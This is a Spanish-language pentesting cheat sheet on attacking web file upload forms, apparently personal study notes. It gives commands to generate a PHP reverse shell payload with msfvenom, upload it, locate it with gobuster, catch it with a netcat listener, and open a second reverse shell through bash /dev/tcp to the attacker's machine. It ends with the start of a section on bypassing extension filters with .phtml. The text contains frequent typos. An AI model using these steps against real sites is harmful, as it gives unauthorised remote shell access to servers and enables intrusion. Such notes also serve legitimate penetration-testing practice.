 
Cuandouna web nos permite subir archivos hay que explotarlo bien, porque seguramente se pueda hacer una intrusión por ahí.
La forma de atacar será subir un archivo con un codigo malicioso que se puede crear con msfvenom



1 con Msfvenom generamos un payuload:
```sh fold:"Generar payload con msfvenom"
msfvenom -p php/reverse_php Lhost={IPlocal} LPORT={Local port} -f raw > pwned.php
```



Este archivo lo subimos con el formuulario de la web encontrado

Ahora tenemos que saber donde se ha subido para intentar ejecutarlo y ejecutar el codigo malicioso.

por tanto hacemos  Fuzzing con gobuster


```sh fold:"Buscar el fichero subido pwned.php con gobuster"
gobuster dir -u http://{ip} -w /usr/share/wordlist/dirbuster/directory-listls-lowercase-2.3-medium.txt
```


Si encontramos la carpeta /uploads o carpeta similares entramos
Una vez localizado nuestro fichero pwned.php solo nos falta

```sh fold:"Poner Netcat a la escucha en el puerto seleccionado en el fichero creado con msfvenom"
nc -nlvp {Local port}
```

Despues hacemos click sobre nuestro fichero para obtener la conexion en netcat


**Nota:** El payload con msfvenom funciona mal y al cabo del rato perdemos la conexion, por tatno lo primero que hacemos cuando hemos establacido conexion será abrir un nuevo terminal
con netcat nos ponemos a la escucha en otro puerto diferente al que hemos elegido previamente
y desde la conexion anterior nos enbviamos la reverse_shell:


```sh fold:"Enviar una conexion a nuestra maquina por el nuevo puerto"
bash -c "sh -i >&  /dev/tcp/{ip maquina local}/{nuevopuerto} 0>&1"
```


# Bypass Restriccion de FileUpload (Subir ficheros sin permiso de ficheros para ese formato)

cuando intentas subir un archivo en .php por ejemplo y no está permitido tenemos que Bypassear la restricción.

Intentamnos subir un fichero con extension .phtml












